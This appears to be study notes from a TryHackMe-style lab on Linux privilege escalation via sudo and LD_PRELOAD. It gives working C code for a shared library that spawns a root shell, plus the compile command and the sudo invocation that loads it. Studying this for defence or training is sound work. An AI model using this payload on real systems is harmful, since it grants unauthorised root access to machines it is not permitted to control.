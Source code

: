 ```yaml
---
description: SUDO exploitation by LD_PRELOAD
---
```


# SUDO

View own SUDO permissions

`sudo -l`&#x20;

* LD\_PRELOAD

On some systems, you may see the LD\_PRELOAD environment option.

![https://i.imgur.com/gGstS69.png](https://i.imgur.com/gGstS69.png)

LD\_PRELOAD is a function that allows any program to use shared libraries. If the "env\_keep" option is enabled, we can generate a shared library that will be loaded and executed before running the program. Note that the LD\_PRELOAD option will be ignored if the actual user ID is different from the effective user ID.&#x20;

The steps of this privilege escalation vector can be summarized as follows;&#x20;

1. Check LD\_PRELOAD (with env\_keep option).
2. Write simple C code compiled as a shared object file (.so extension).
3. Run the program with sudo rights and the LD\_PRELOAD option pointing to our '.so' file.

&#x20;The C code will simply spawn a root shell and can be written as follows:

{% code overflow="wrap" %}
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
{% endcode %}

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters:

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

![shell.c and compilation with gcc](https://i.imgur.com/HxbszMW.png)

We can now use this shared object file when starting any program that our user can run with sudo. In our case we can use Apache2, find, or almost any of the programs that we can run with sudo.

We need to run the program specifying the LD\_PRELOAD option, as follows:

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p>Screenshot showing changing to SUDO privileges with exploit</p></figcaption></figure>



_-Credits: TryHackMe_
